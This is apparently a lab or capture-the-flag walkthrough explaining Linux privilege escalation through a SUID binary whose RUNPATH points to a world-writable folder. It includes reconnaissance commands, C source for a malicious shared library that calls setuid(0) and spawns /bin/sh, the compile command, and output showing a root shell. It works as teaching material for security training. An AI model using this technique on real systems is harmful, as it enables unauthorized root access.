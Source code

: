 You will found any binary with SUID permissions for example in our case we have `payroll` 

There is a **binary file** named `payroll` that runs with **root privileges** (because it has the `suid` bit set). But it depends on an external **shared library** called `libshared.so`.

This library is **not located in a secure system folder** like `/lib`, but instead in a **world-writable folder**: `/development/`.

That means **any user (even low-privilege)** can **replace** the library with a **malicious one** — and **trick the root program** into running their code!


#### Step 1: Identify a SUID Binary

You found a binary like this:
```bash
ls -la payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```
### Step 2: Check Which Libraries It Loads

Use `ldd` to list shared libraries used by `payroll`:
```bash
ldd payroll
```

You saw this:
```bash
`libshared.so => /development/libshared.so`
```
🚨 It is loading `libshared.so` from a folder **we can write to**!

### Step 3: Verify If It Has a Custom Load Path

You used `readelf` to confirm:
```bash
`readelf -d payroll | grep PATH`
```

You saw:

```bash
0x000000000000001d (RUNPATH) Library runpath: [/development]
```
🔥 This tells the binary to load libraries from `/development` **first**, even before default folders like `/lib`.

### Step 4: Write a Malicious Library `src.c`
You made a C file like this:

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

- This creates a function named `dbquery()` (which `payroll` expects).
- Inside that function:
    - `setuid(0)` → switch to root
    - `system("/bin/sh -p")` → pop a shell **as root**

## Step 5: Compile Your Evil Library
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```
- `-fPIC`: Position-independent code (required for shared libraries)
- `-shared`: Create `.so` (shared object)

### Step 7: Run the Root Program
```bash
`./payroll`
```

You saw:

```bash
Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n)
```
🎉 Boom! Root shell!